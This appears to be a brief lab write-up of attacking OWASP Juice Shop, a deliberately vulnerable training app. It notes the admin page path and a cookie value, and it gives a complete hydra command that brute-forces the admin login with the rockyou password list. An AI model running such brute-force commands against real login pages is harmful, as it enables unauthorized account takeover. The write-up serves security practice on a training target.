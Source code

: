 1-	The admin path  (https://juiceshop.herokuapp.com/#/administration)  
![{C5EB1965-CD9A-44E5-AD11-74A08718781B}](https://github.com/user-attachments/assets/1516fbdb-efe2-4b2e-a878-2ff7e3905850)



2-(hydra -l admin@juice-sh.op -P  /usr/share/wordlists/rockyou.txt juice-shop.herokuapp.com httppost-form  
"/rest/user/login:email=^USER^&password=^PASS^:F=Invalid email or password" -V -I -F 


![image](https://github.com/user-attachments/assets/61580b47-9d74-4394-80ea-ac97513c2b9a)

3- 
![{DA0B731F-B04E-4769-BA3D-CE71858047C3}](https://github.com/user-attachments/assets/b8f7ae13-2b0b-480f-9150-dd48577a4b39)
![image](https://github.com/user-attachments/assets/3bd63a29-c1a5-4edf-b64b-1f12cad7397b)

4-The cookie: 
(language=en;welcomebanner_status=dismiss;cookieconsent_st atus=dismiss) 
![image](https://github.com/user-attachments/assets/9eba5710-81ae-45e5-99b4-eeb9b052e58f)


